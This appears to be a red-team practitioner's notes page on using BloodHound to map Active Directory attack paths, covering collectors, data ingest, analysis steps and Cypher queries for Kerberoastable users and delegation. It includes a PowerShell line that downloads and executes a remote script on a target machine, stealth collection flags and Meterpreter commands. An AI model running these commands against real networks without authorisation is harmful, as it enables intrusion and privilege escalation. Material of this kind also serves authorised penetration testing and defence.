 # [BloodHound](https://github.com/BloodHoundAD/BloodHound)

> BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment.

---

## Setup

**Attack machine**: [[neo4j#Run via Docker|Start Neo4j]]

**Attack machine (must be GUI)**: Start Bloodhound

```bash
cd /opt/bloodhound/BloodHound-linux-x64
./BloodHound --no-sandbox # no sudo required
```

Login using your neo4j credentials (in LastPass).

---

## Collection

Somehow, someway, execute a BloodHound collector (located in **/opt/bloodhound/collectors**), either from the attacker's machine with domain user credentials or on a domain-joined machine.

**Attacker Machine, Python collector**:

```bash
bloodhound-python -d $DOMAIN -u $USERNAME -p $PASSWORD -c All -ns $DOMAIN_DNS_SERVER_IP
```

**Target Machine, PowerShell collector**:

Source the BloodHound collector script.

```powershell
. .\SharpHound.ps1 # Locally
IEX (New-Object Net.Webclient).DownloadString("$HTTP_URL_TO_SCRIPT"); $BLOODHOUND_COMMAND_HERE # Remotely
```

Execute the collector script.

```powershell
Invoke-BloodHound -CollectionMethod All -Domain $DOMAIN -Stealth
```

**Target Machine, C# Collector**:

```powershell
.\SharpHound.exe --CollectionMethod All --Domain $DOMAIN --Stealth --NoSaveCache # HYDRA.test
```

**Meterpreter/PowerShell on Target Machine**:

```powershell
meterpreter > use powershell
meterpreter > powershell_import $PATH_TO_SHARPHOUND_PS1
meterpreter > powershell_execute "Invoke-BloodHound -CollectionMethod All -Domain $DOMAIN -Stealth -NoSaveCache" # HYDRA.test
```

---

## Ingest

Transfer the resultant ZIP archive to the attacker machine upload it to the BloodHound web UI, and explore!

---

## Analysis Process

After you've ingested all of the data, go to the search bar, type in the name of the principal you've already compromised, and hit enter. Right-click the resultant node and select `Mark Principal as Owned`. Do this for each principal you've compromised.

Afterwards, go through each of the prebuilt analytic queries except for `Shortest Paths to High Value Targets`.

If nothing stands out, select the query `Shortest Paths to High Value Targets` and see if there's anything interesting.

Afterwards, search for each of the owned principals. Right-click the node and investigate the `Node Info` attributes. Pay special attention to `Outbound Control Objects`.

---

## Discover Kerberoastable Users

Use the prebuilt query `List all Kerberoastable Users`.

---

## Generate a Graph of a Foreign Domain

```powershell
Invoke-BloodHound -CollectionMethod $COLLECTION_METHOD -Domain $FOREIGN_DOMAIN
```

Enumerates via LDAP, so must be executed in the security context of a user who can issue an LDAP query to `$FOREIGN_DOMAIN`'s primary domain controller.

---

## Cypher Query Inspiration

The input at the bottom of the BloodHound page shows the current Cypher query, which can be customized to fine-tune results. Here's some syntactical inspiration.

1. Show all users with a SPN set ([[kerberoasting|Kerberoastable]])

```cypher
MATCH (u:User {hasspn:true}) RETURN u
```

2. Show all computers that are allowed to delegate (i.e., have [[constrained-delegation|constrained delegation]] enabled) to other computers

```cypher
MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
```

3. Show shortest path from [[kerberoasting|Kerberoastable]] users to any computer

```cypher
MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
```
